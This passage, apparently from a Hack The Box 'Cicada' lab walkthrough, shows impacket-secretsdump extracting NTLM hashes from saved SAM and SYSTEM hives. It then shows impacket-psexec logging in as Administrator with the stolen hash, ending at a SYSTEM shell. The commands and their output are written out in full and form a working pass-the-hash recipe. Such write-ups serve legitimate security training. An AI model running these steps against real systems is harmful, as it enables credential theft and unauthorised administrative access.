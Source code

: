 Then on your local kali use secrets-dump to extract hashes and then psexec to login as administator using the NT hash:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-psexec cicada/Administrator@10.10.11.35 -hashes :2b87e7c93a3e8a0ea4a581937016f341
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.35.....
[*] Found writable share ADMIN$
[*] Uploading file XnYvdxik.exe
[*] Opening SVCManager on 10.10.11.35.....
[*] Creating service noqz on 10.10.11.35.....
[*] Starting service noqz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```
